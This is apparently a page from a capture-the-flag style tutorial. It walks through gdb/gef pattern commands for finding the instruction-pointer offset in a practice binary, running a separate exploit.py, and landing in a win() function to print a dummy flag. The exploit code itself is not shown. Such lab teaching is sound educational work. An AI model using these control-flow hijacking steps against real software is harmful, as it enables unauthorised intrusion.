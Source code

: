# 🎯 The Action

You've built the exploit... now let’s **see it in action**.

---

## 🧪 Step-by-Step Execution

### 1. 💥 Crash

Let’s run the binary in `gdb` to **verify** our control over the return address.

```bash
$ gdb ./exploitme
gef➤ start
gef➤ pattern create 100
```

### 2. 🔍 Inspect
Paste that pattern into the binary’s input and crash it. Then:

```bash
gef➤ info registers
gef➤ pattern offset [value of RIP]
```

🔍 This gives you the exact **offset** to control the instruction pointer.

---

### 3. 🚀 Launch the Final Exploit

Now let’s run the Python script from earlier:

```bash
$ python3 exploit.py
```

If everything is correct, you’ll see:

```
win() called!
Here's your flag: flag{dummy_flag}
```

Boom 💥 You’ve hijacked execution and landed in `win()`!

---

## 🛠️ Debugging Tips

- Use `hexdump(payload)` to inspect payload contents.
- Use `gdb.attach(p)` in the script for live debugging:

```python
p = elf.process()
gdb.attach(p)
```

This lets you hit **breakpoints** and inspect **memory/registers** during the attack.

---

## ✅ Recap

- You found a buffer overflow.
- Calculated the offset to RIP.
- Redirected control to the `win()` function.
- Got the flag. 🎉

Now you're thinking like an exploiter. 🧠💀